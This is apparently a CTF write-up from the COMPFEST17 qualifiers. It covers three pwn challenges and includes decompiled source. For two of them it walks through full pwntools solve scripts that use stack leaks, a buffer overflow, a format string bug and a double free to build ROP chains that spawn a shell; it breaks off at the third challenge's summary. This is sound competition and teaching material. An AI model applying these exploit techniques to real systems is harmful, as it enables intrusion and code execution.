This is a National CTF Challenge, another full sweep and also first time Top 1 in CTF on the qual POG :?

I guess the pwn really carry it XD


# Pwn - Neutral Evil

## Introduction 



## Source Code

There is no source code, but this is the result of ChatGPT beautifying the code from the decompiler

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>
#include <stdint.h>

static uintptr_t dm_secret;  // mirrors the original 64-bit global

__attribute__((noreturn))
static void read_log(void) {
    FILE *fp;
    char logbuf[112];

    fp = fopen("log.txt", "r");
    if (!fp) {
        fwrite("Something went wrong opening the file, please report to maintainer.", 1u, 0x43u, stderr);
        exit(1);
    }
    if ((int)fread(logbuf, 1u, 0x64u, fp) <= 0) {
        fwrite("Something went wrong reading the file, please report to maintainer.", 1u, 0x43u, stderr);
        exit(1);
    }
    puts(logbuf);  // not guaranteed NUL-terminated → preserves original over-read behavior
    exit(0);
}

__attribute__((noreturn))
static void timeout_handler(int signum) {
    (void)signum;
    write(1, "DM: The demigod vaporized your party for stalling.\n", 0x33u);
    _exit(1);
}

static int setup(void) {
    struct sigaction sa;
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    memset(&sa, 0, sizeof(sa));
    sa.sa_handler = timeout_handler;
    return sigaction(SIGALRM, &sa, NULL);
}

static void *cleaner(void) {
    unsigned char scratch[256];
    return memset(scratch, 0, sizeof(scratch));  // returns pointer to a dead stack buffer (intentionally UB)
}

static uintptr_t encounter(void) {
    uintptr_t result;
    char action_input[32];
    void *saved_ra = __builtin_return_address(0);  // mirrors the decompiler's retaddr capture

    dm_secret = (uintptr_t)saved_ra;

    puts("DM: Your party stumbles upon an angry demigod.");
    puts("DM: You have 10 seconds to do something that gets your party out alive");
    printf("You do: ");
    alarm(10);
    fgets(action_input, 80, stdin);  // overflow: reads up to 79+NUL into a 32-byte buffer
    alarm(0);

    result = dm_secret;
    if (saved_ra != (void *)dm_secret) {
        puts("DM: The god of nature swats you for disturbing the flow of nature");
        exit(1);
    }
    return result;
}

static void *start(void) {
    char name_buf[32];

    printf("Cleric: what should we call you? ");
    read(0, name_buf, 0x20u);  // no NUL → later %s can over-read stack
    printf("Everyone: welcome to our party %s", name_buf);
    encounter();
    return cleaner();
}

int main(int argc, char **argv, char **envp) {
    (void)argc; (void)argv; (void)envp;

    setup();
    start();
    puts("DM: That was ineffective. The demigod casts meteor shower.");
    puts("DM: 420 total damage, auto fail saving throw.");
    puts("DM: Well... sorry not sorry, thanks for playing guys.");
    return 0;
}
```

## Summary

Leak in `start` then pivot to continue `bof` with the stack. Here you actually can just call `read_log` but i stupidly decided to leak the libc via `got` using `start + 45`. After finding the right libc just do `ret2system`

## Solution

We were given a chall binary, when decompile there is input where it not end with null in `start` function and `BOF` in encounter. To solve this problem you can just ret2win with `read_log` but i didn't realize that function for what so ended it up doing ret2libc to find the libc.

First to leak the address we can give input size of the buffer, so that it leaks the stack next to it.
```python
sa("? ", b"a"*0x20)
ru("a"*0x20)
stack = u64(ru("DM").ljust(8, b"\x00"))
target = stack - 0x48
```


After that we can enter BOF state where there is check `if (saved_ra != (void *)dm_secret)` to be pass.

```C
static uintptr_t encounter(void) {
    uintptr_t result;
    char action_input[32];
    void *saved_ra = __builtin_return_address(0);  // mirrors the decompiler's retaddr capture

    dm_secret = (uintptr_t)saved_ra;

    puts("DM: Your party stumbles upon an angry demigod.");
    puts("DM: You have 10 seconds to do something that gets your party out alive");
    printf("You do: ");
    alarm(10);
    fgets(action_input, 80, stdin);  // overflow: reads up to 79+NUL into a 32-byte buffer
    alarm(0);

    result = dm_secret;
    if (saved_ra != (void *)dm_secret) {
        puts("DM: The god of nature swats you for disturbing the flow of nature");
        exit(1);
    }
    return result;
}
```

Also when analyze the instruction it does leave twice after return to start so we can just pivot it to stack after input to make it BOF. To pass all check we can just send the payload like this:

```python
sa("You do: ", b"A"*0x20 + p64(target) + p64(elf.sym["start"] + 72) + p64(elf.sym["main"] + 89) + p64(pop_rbp) +  p64(elf.got["puts"] + 0x20) + p64(elf.sym["start"] + 45))
```

Here actually we can just call `read_log` instantly, but i stupidly decided to do `ret2libc` with `start + 45` where it print the rbp targeting the `got`.

```python
sa("You do: ", b"A"*0x1f + p64(target) + p64(elf.sym["start"] + 72) + p64(elf.sym["main"] + 89) + p64(pop_rbp) +  p64(elf.got["setbuf"] + 0x20) + p64(elf.sym["start"] + 45))
```



After finishing leak we can just do `ret2system`

```python
sa("You do: ", b"A"*0x1f + p64(target) + p64(elf.sym["start"] + 72) + ret2system())
```




### Solve Script

```python
#!/usr/bin/env python3
import time
from subprocess import Popen
from pwncli import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chall'
elf = context.binary = ELF(exe, checksec=True)
libc = elf.libc
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "ctf.compfest.id", 7004


gdbscript = '''
init-pwndbg
b *encounter+112
c
'''.format(**locals())

def initialize(argv=[]):
    global pid
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "/app/run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, aslr=False)
    else:
        return process([exe] + argv, aslr=False)

def debug():
    global gdbscript, pid
    if not args.REMOTE and not args.GDB:
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:
            gdbscript = f'''
            init-pwndbg
            set sysroot /proc/{pid}/root
            c
            '''.format(**locals())        
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='chall')
        else:
            attach(io, gdbscript=gdbscript)

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))


# =========================================================
#                         EXPLOITS
# =========================================================
# Libc Finder
def find_libc(offset={}):
    print(libcdb.search_by_symbol_offsets(offset, return_as_list=True))
    idx = int(1)
    return libcdb.search_by_symbol_offsets(offset, select_index=idx)

def ret2system():
    rop = ROP(libc)
    # rop.raw(rop.ret.address)
    rop.system(next(libc.search(b'/bin/sh')))
    return rop.chain()


def exploit():
    global io, libc
    io = initialize()
    with log.progress("Leak Stack"), context.silent:
        sa("? ", b"a"*0x20)
        ru("a"*0x20)
        stack = u64(ru("DM").ljust(8, b"\x00"))
        target = stack - 0x48
    leak("Stack", hex(stack))
    leak("Target", hex(target))

    with log.progress("Leak Libc"), context.silent:
        pop_rbp = nsa(elf, "pop rbp ; ret")
        sa("You do: ", b"A"*0x20 + p64(target) + p64(elf.sym["start"] + 72) + p64(elf.sym["main"] + 89) + p64(pop_rbp) +  p64(elf.got["puts"] + 0x20) + p64(elf.sym["start"] + 45))
        ru("party ")
        puts = u64(ru("DM").ljust(8, b"\x00"))
        target += 0x20
        sa("You do: ", b"A"*0x1f + p64(target) + p64(elf.sym["start"] + 72) + p64(elf.sym["main"] + 89) + p64(pop_rbp) +  p64(elf.got["setbuf"] + 0x20) + p64(elf.sym["start"] + 45))
        ru("party ")
        setbuf = u64(ru("DM").ljust(8, b"\x00"))
        libc = ELF(find_libc({"puts": puts, "setbuf": setbuf}))
        libc.address = puts - libc.sym["puts"]
    leak("Puts", hex(puts))
    leak("Setbuf", hex(setbuf))
    leak("Libc base address", hex(libc.address))
    with log.progress("Ret2system"), context.silent:
        target += 0x20
        debug()
        sa("You do: ", b"A"*0x1f + p64(target) + p64(elf.sym["start"] + 72) + ret2system())
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`COMPFEST17{truly_evil_482d5b6803}`

# Pwn - All in

## Introduction 



## Source Code

There is no source code, but this is the result of ChatGPT beautifying the code from the decompiler

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

static void *notes[10];  // global notes array

static int setup(void) {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin,  NULL, _IONBF, 0);
    return setvbuf(stderr, NULL, _IONBF, 0);
}

static unsigned long long add_note(void) {
    int seat_input;                // corresponds to v1 (raw seat)
    size_t raise_amount;           // corresponds to *(QWORD*)n
    void *note_ptr;                // corresponds to dest
    char note_buf[120];            // corresponds to s[120]

    printf("Seat number: ");
    scanf("%d%*c", &seat_input);

    int seat = seat_input - 1;     // (unsigned int)--v1 < 0xA
    if ((unsigned)seat < 10) {
        printf("Raise amount: ");
        scanf("%zu%*c", &raise_amount);

        if (raise_amount > 9u) {
            if (raise_amount <= 0x78u) { // 120
                printf("Add a note for this bet: ");
                // original uses fgets(s, n[0], stdin)
                fgets(note_buf, (int)raise_amount, stdin);

                if (strchr(note_buf, 36)) { // '$' == 36
                    puts("Sorry, we don't do tips here.");
                } else {
                    note_ptr = malloc(raise_amount);
                    memcpy(note_ptr, note_buf, raise_amount); // no NUL termination on purpose
                    notes[seat] = note_ptr;
                    // original print: "%ld" (long) for the amount
                    printf("Player %d raised $%ld.\n", seat + 1, (long)raise_amount);
                }
            } else {
                puts("Relax, that's too much.");
            }
        } else {
            puts("This isn't a home game, minimum $10.");
        }
    } else {
        puts("No such seat.");
    }
    // function returned a stack canary delta in the decomp; return a dummy 0 to preserve signature shape
    return 0ULL;
}

static unsigned long long view_note(void) {
    int seat_input;

    printf("Seat number: ");
    scanf("%d%*c", &seat_input);

    int seat = seat_input - 1;
    if ((unsigned)seat < 10) {
        int one_based = seat + 1;
        printf("Player %d took a look at their note:\n", one_based);
        if (notes[seat]) {
            // format string bug preserved (user-controlled format string)
            // original passed three extra args: (v0, 8LL*seat, 0)
            printf((const char *)notes[seat], one_based, 8LL * seat, 0);
        } else {
            puts("There's nothing there");
        }
    } else {
        puts("No such seat.");
    }
    return 0ULL;
}

static unsigned long long delete_note(void) {
    int seat_input;

    puts("Seat number: ");
    scanf("%d%*c", &seat_input);

    int seat = seat_input - 1;
    if ((unsigned)seat < 10) {
        free(notes[seat]);                     // intentionally does not null the pointer
        printf("Player %d folded.\n", seat + 1);
    } else {
        puts("No such seat.");
    }
    return 0ULL;
}

static int menu(void) {
    puts("");               // corresponds to puts(&byte_211F) (prints a blank line)
    puts("[1] Raise");
    puts("[2] Peek");
    puts("[3] Fold");
    puts("[4] Bail out");
    return printf(">> ");
}

// Weird helper retained to mirror original binary (not used)
static unsigned long long div_1(unsigned long long a1, unsigned long long a2, unsigned long long a3) {
    (void)a1; (void)a2;
    unsigned __int128 tmp = 0;
    ((unsigned long long *)&tmp)[1] = a3; // set high 64 bits
    unsigned long long savedregs;         // dummy stack local to take an address
    return (unsigned long long)(tmp / (unsigned long long)&savedregs);
}

// Another odd stub kept for parity (not used)
static void sys_0(void) {
#if defined(__x86_64__)
    __asm__ __volatile__("syscall");
#else
    // no-op on non-x86_64
#endif
}

int main(int argc, const char **argv, const char **envp) {
    (void)argc; (void)argv; (void)envp;

    int choice = -1;
    unsigned char big_scratch[1824];

    // original does: memset(s, 0, 0x2710u) where s is only 1824 bytes
    // this intentionally writes far beyond local buffer (UB), kept to preserve behavior
    memset(big_scratch, 0, 0x2710u);

    setup();
    puts("Welcome to the King's Hold'em Lounge.");
    puts("Wait are you guys all friends?");
    puts("Whatever we get comission anyways let's start.");

    while (choice != 4) {
        menu();
        scanf("%d%*c", &choice);

        if (choice == 4) {
            puts("See you next time.");
        } else {
            switch (choice) {
                case 1: add_note();    break;  // Raise
                case 2: view_note();   break;  // Peek
                case 3: delete_note(); break;  // Fold
                default:
                    puts("We don't do that here.");
                    break;
            }
        }
    }
    return 0;
}
```

## Summary

Leak `stack` address with fmstr then leak heap and libc by moving the fastbin to smallbins. After that do `house of plastic` to get double free and overwrite the ret instruction to ret2system

## Solution

Given chall and the library i started with running pwninit to patch and unstripping the libc. Then when running the binary it give 4 option.

1. `chunk[idx] = malloc(size)` chunk with size given limited to 0x78 also asking for the idx and content.
2. `printf(*(chunk[idx]))` it will print the chunk content
3. `free(chunk[idx])` free the chunk with idx given
4. exit the program with return

The vuln here is format strings (it doesn't accept $ in the input) and double free. So first i leak the stack and elf address with format strings.         

```python
alloc(1, 0x78, b"%p."*10)
view(1)
leaks = rl().split(b".")
print(leaks)
stack = int(leaks[0],16)
ret = stack + 0x4878
elf_leak = int(leaks[8],16)
elf.address = elf_leak - (elf.sym["main"] + 249)
```

After that leak heap & libc with moving the fastbin to smallbins using scanf.

```python
for i in range(9):
    alloc(2 + i, 0x78, b"A")
for i in reversed(range(7)):
    free(1 + i)
free(8)
menu(2)
sla(": ", b"8".rjust(1024,b"0")) #Move fastbin to smallbins
rl()
libc_leak = u64(rl().strip().ljust(8, b"\x00"))
libc.address = libc_leak - (libc.sym["main_arena"] + 208)

view(7)
heap_leak = u64(rl().strip().ljust(8, b"\x00")) << 12
heap = heap_leak
for i in range(9):
    alloc(2 + i, 0x78, b"A")
```




I also clean the bins. After leaking the address then using `house of plastic` double free and targeting to ret address to be overwrite it to ret2system.

```python
for i in range(10):
    alloc(1 + i, 0x38, b"A")
for i in reversed(range(7)):
    free(1 + i)
free(8)
free(9)
free(8) # Double free
for i in range(7):
    alloc(1 + i, 0x38, b"A")
alloc(8, 0x38, p64(mangle(heap, ret - 8)))
alloc(9, 0x38, b"A")
alloc(9, 0x38, b"A")
alloc(9, 0x38, p64(0) + ret2system())
menu(4)
```

For finding the return address we can just set breakpoint at `ret` instruction.






### Solve Script

```python
#!/usr/bin/env python3
import time
from subprocess import Popen
from pwncli import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chall_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = elf.libc
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "ctf.compfest.id", 7001


gdbscript = '''
init-pwndbg
# set architecture aarch64
# target remote :5000
c
'''.format(**locals())

def initialize(argv=[]):
    global pid
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "/app/run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, aslr=False)
    else:
        return process([exe] + argv, aslr=True)

def debug():
    global gdbscript, pid
    if not args.REMOTE and not args.GDB:
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:
            gdbscript = f'''
            init-pwndbg
            set sysroot /proc/{pid}/root
            c
            '''.format(**locals())        
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='chall')
        else:
            attach(io, gdbscript=gdbscript)

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))


# =========================================================
#                         EXPLOITS
# =========================================================
def ret2system():
    rop = ROP(libc)
    rop.raw(rop.ret.address)
    rop.system(next(libc.search(b'/bin/sh')))
    return rop.chain()

# Heap Protection
def mangle(heap_addr, val):
    return (heap_addr >> 12) ^ val

def demangle(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val

def menu(op):
    sla(">> ", str(op).encode())

def alloc(idx, size, content):
    menu(1)
    sla(": ", str(idx).encode())
    sla(": ", str(size).encode())
    sla(": ", content)

def view(idx):
    menu(2)
    sla(": ", str(idx).encode())
    rl()

def free(idx):
    menu(3)
    sla(": ", str(idx).encode())

def exploit():
    global io
    io = initialize()
    debug()
    with log.progress("Leak via Format String"), context.silent:
        alloc(1, 0x78, b"%p."*10)
        view(1)
        leaks = rl().split(b".")
        print(leaks)
        stack = int(leaks[0],16)
        ret = stack + 0x4878
        elf_leak = int(leaks[8],16)
        elf.address = elf_leak - (elf.sym["main"] + 249)
    leak("Stack address", hex(stack))
    leak("Return address", hex(ret))
    leak("Elf leak", hex(elf_leak))
    leak("ELF base address", hex(elf.address))
    with log.progress("Heap and Libc Leak"), context.silent:
        for i in range(9):
            alloc(2 + i, 0x78, b"A")
        for i in reversed(range(7)):
            free(1 + i)
        free(8)
        menu(2)
        sla(": ", b"8".rjust(1024,b"0"))
        rl()
        libc_leak = u64(rl().strip().ljust(8, b"\x00"))
        libc.address = libc_leak - (libc.sym["main_arena"] + 208)

        view(7)
        heap_leak = u64(rl().strip().ljust(8, b"\x00")) << 12
        heap = heap_leak
        for i in range(9):
            alloc(2 + i, 0x78, b"A")

    leak("Libc leak", hex(libc_leak))
    leak("Libc base address", hex(libc.address))
    leak("Heap leak", hex(heap_leak))
    leak("Heap base address", hex(heap))
    with log.progress("Overwrite ret address"), context.silent:
        for i in range(10):
            alloc(1 + i, 0x38, b"A")
        for i in reversed(range(7)):
            free(1 + i)
        free(8)
        free(9)
        free(8)
        for i in range(7):
            alloc(1 + i, 0x38, b"A")
        alloc(8, 0x38, p64(mangle(heap, ret - 8)))
        alloc(9, 0x38, b"A")
        alloc(9, 0x38, b"A")
        alloc(9, 0x38, p64(0) + ret2system())
        menu(4)
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`COMPFEST17{fastbin_dup_heap_corruption_format_string_stack_leak_unsigned_addition_unsigned_division_rop_execve_semua_ada_all_in_bosku_daa851917d}`

# Pwn - Office Simulator

## Introduction 


## Source Code

```c
#include <iostream>
#include <cstdio>
#include <cstdlib>
#include <vector>

#define MAX_WORKERS 8

class Worker {
public:
    Worker() {}
    virtual void work(void) const {
        std::cout << "Ughh... I hate this job" << std::endl;
    }
    ~Worker() = default;
};

class Admin : public Worker {
public:
    Admin() : Worker() {}
    Admin(std::string name) : m_name(name) {}
    void work(void) const override {
        std::cout << this->m_name << ": I have a name because I'm special!" << std::endl;
    }

private:
    std::string m_name{};
};

Worker *workers[MAX_WORKERS] = { nullptr };
std::vector<int> choice_history;
static const std::vector<std::string> choice_map = {
    "Hired a worker",
    "Fired a worker",
    "Tired out a worker",
    "Viewed history",
    "Cleared history"
};

void setup(void) {
    Admin admin{};
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

void win(void) {
    system("/bin/sh");
}

int menu(void) {
    int input;
    std::cout << "1. Hire\n"
                << "2. Fire\n"
                << "3. Tire\n"
                << "4. View History\n"
                << "5. Clear History\n"
                << "6. Exit\n"
                << ">> ";
    std::cin >> input;
    return input;
}

int get_index(void) {
    int i;
    std::cout << "Which index?\n>> ";
    std::cin >> i;
    if (i < 0 || i > MAX_WORKERS) {
        std::cout << "You don't have that many workers!\n";
        exit(1);
    }
    return i;
}

void hire(void) {
    int i = get_index();
    workers[i] = new Worker();
}

void fire(void) {
    int i = get_index();
    if (workers[i] != 0) {
        delete workers[i];
        workers[i] = nullptr;
    }
}

void tire(void) {
    int i = get_index();
    if (workers[i] != 0) {
        workers[i]->work();
    }
}

void view_history(void) {
    std::cout << "So far, you have:\n";
    for (int choice : choice_history) {
        std::string choice_text;
        if (choice <= choice_map.size()) {
            choice_text = choice_map[choice - 1];
        } else {
            choice_text = "UNKNOWN";
        }

        std::cout << "- " << choice_text << " (" << choice << ")\n";
    }
}

int main() {
    int choice = 0;
    setup();
    do {
        choice = menu();
        choice_history.push_back(choice);
        switch (choice) {
            case 1:
                hire();
                break;
            case 2:
                fire();
                break;
            case 3:
                tire();
                break;
            case 4:
                view_history();
                break;
            case 5:
                choice_history.clear();
                break;
            case 6:
                break;
            default:
                std::cout << "Invalid choice!" << std::endl;
        }
    } while (choice != 6);

    return 0;
}
```

## Summary

